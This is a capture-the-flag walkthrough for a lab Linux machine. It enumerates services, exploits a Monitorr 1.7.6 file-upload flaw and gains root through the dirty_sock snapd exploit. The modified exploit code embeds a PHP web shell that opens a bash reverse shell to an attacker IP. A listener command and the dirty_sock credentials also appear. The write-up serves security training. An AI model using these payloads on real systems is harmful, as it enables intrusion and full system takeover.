


# Year of the Jellyfin

### Typology: _Linux_

---

We can start as always with nmap:
```bash
nmap -sC -sV -p- 3.255.231.77

PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.3
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
80/tcp    open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to https://robyns-petshop.thm/
443/tcp   open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Robyn&#039;s Pet Shop
| ssl-cert: Subject: commonName=robyns-petshop.thm/organizationName=Robyns Petshop/stateOrProvinceName=South West/countryName=GB
| Subject Alternative Name: DNS:robyns-petshop.thm, DNS:monitorr.robyns-petshop.thm, DNS:beta.robyns-petshop.thm, DNS:dev.robyns-petshop.thm
| Not valid before: 2023-11-27T22:29:59
|_Not valid after:  2024-11-27T22:29:59
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
8000/tcp  open  http-alt
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 15
|_    Request
|_http-title: Under Development!
8096/tcp  open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Date: Mon, 27 Nov 2023 22:49:08 GMT
|     Server: Kestrel
|     Content-Length: 0
|     X-Response-Time-ms: 569
22222/tcp open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:99:92:52:8e:73:ed:91:01:d3:a7:a0:87:37:f0:4f (RSA)
|   256 5a:c0:cc:a1:a8:79:eb:fd:6f:cf:f8:78:0d:2f:5d:db (ECDSA)
|_  256 0a:ca:b8:39:4e:ca:e3:cf:86:5c:88:b9:2e:25:7a:1b (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Summarize:

| **_Port_** |                                         **_Description_**                                        |
|:----------:| ------------------------------------------------------------------------------------------------ |
| Port 21    | FTP service is open, anonymous login isn't allowed|
| Port 80    | HTTP service Apache V2.4.29, redirect to https://robyns-petshop.thm/   |
| Port 443   | HTTPS service Apache v2.4.49, Certificate with theese ASN: monitorr.robyns-petshop.thm, beta.robyns-petshop.thm, dev.robyns-petshop.thm|
| Port 8080,8096 | HTTP service useless|
| Port 22222 | SSH service |

We can add the domain name and his subdomains to `/etc/hosts`

### robyns-petshop:


It's website for a pethsop run by `picoCMS`, we can read it at the bottom, it's time to enumerate with gobuster:
```bash
gobuster dir -u https://robyns-petshop.thm/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt -k

/index.php            (Status: 200) [Size: 3671]
/content              (Status: 301) [Size: 328] [--> https://robyns-petshop.thm/content/]
/themes               (Status: 301) [Size: 327] [--> https://robyns-petshop.thm/themes/]
/business             (Status: 401) [Size: 466]
/assets               (Status: 301) [Size: 327] [--> https://robyns-petshop.thm/assets/]
/plugins              (Status: 301) [Size: 328] [--> https://robyns-petshop.thm/plugins/]
/vendor               (Status: 301) [Size: 327] [--> https://robyns-petshop.thm/vendor/]
/config               (Status: 301) [Size: 327] [--> https://robyns-petshop.thm/config/]
/LICENSE              (Status: 200) [Size: 1085]
```
The only interesting folder is `/business` with a login panel but we don't have any credentials

> The other directories are useless

### subdomains:

- dev.robyns-petshop.thm is same as the robyns-petshop.thm also the gobuster's output is same:
```bash
gobuster dir -u https://dev.robyns-petshop.thm/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt -k

/index.php            (Status: 200) [Size: 3703]
/.html                (Status: 403) [Size: 288]
/content              (Status: 301) [Size: 336] [--> https://dev.robyns-petshop.thm/content/]
/themes               (Status: 301) [Size: 335] [--> https://dev.robyns-petshop.thm/themes/]
/business             (Status: 401) [Size: 470]
/assets               (Status: 301) [Size: 335] [--> https://dev.robyns-petshop.thm/assets/]
/plugins              (Status: 301) [Size: 336] [--> https://dev.robyns-petshop.thm/plugins/]
```

- beta.robyns-petshop.thm:



It has nothing to see and gobuster returns nothing.

- monitorr.robyns-petshop.thm:



It seems more interesting of the previous ones, we can retrieve a version `Monitor V1.7.6` and if we click on the label __"Monitor Settings"__ there is an access panel, but we don't have any credentials; we can try to search for some vuln against the version.

### POC 48980:

A quick search on google `Monitorr 1.7.6 vuln` prompts this one [48981](https://www.exploit-db.com/exploits/48981) and the other [48980](https://www.exploit-db.com/exploits/48980)

- 48981: It's an authorization bypass but if we browse to the dir `/assets/config/` we can see that the php file we need called `/_register.php` isn't present so we don't have the permissions to visit

- 48981: It's works but it need some debug and modification to the exploit code:

1) add the `verify=False` and the cookie `"isHuman": "1"` at this lines:
```python
requests.post(url, headers=headers, data=data, verify=False, cookies={"isHuman": "1"})

requests.post(url, headers=headers, data=data, verify=False, cookies={"isHuman": "1"})
```
2) bypass extension filter:
```python
data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.gif.pHP\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

url = sys.argv[1] + "/assets/data/usrimg/she_ll.gif.pHP"
```

Now it remains to open a listener, use the poc and visit the php file uploaded:
```bash
pwncat-cs -lp 443
```
then:
```bash
python3 48980.py https://monitorr.robyns-petshop.thm/ 10.8.98.143 443
```
> I don't know but it only works the 443 port
>> If you want to avoid all this fixing, someone wrote a poc for this machine at this [link](https://github.com/jayngng/monitorr-v1.7.6m-rce)

We visit the followig URL: `https://monitorr.robyns-petshop.thm/assets/data/usrimg/<php file>` and we can have our shell and retrieve the first flag in `/var/www`

> I knwo very strange that we already have the first flag

### Privesc root:

First We can try some manual enumeration; after some times we can see a very strange SGID:
```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 root root 101208 Apr 16  2018 /usr/lib/snapd/snap-confine
```
> I tried several commands but the only interesting thing is this one

We can retrieve the versione with the following command:
```bash
snap --version

snap    2.32.5+18.04
snapd   2.32.5+18.04
series  16
ubuntu  18.04
kernel  4.15.0-140-generic
```
Quick search `snap 2.32.5+18.04 privesc` find this [blog](https://0xdf.gitlab.io/2019/02/13/playing-with-dirty-sock.html), it talks about a two exploit written in python, the working on the machine is the second one, we can find at this [link](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py)

> dirty sockv1 doesn't work
>> Explanation of how work the exploit [here](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)

we can exploit it with the following commands:
```bash
vim poc.py

/paste the python code/
esc :wq

python3 poc.py
```
then:
```bash
su dirty_sock
pass: dirty_sock

sudo su
pass: dirty_sock
```
We're root.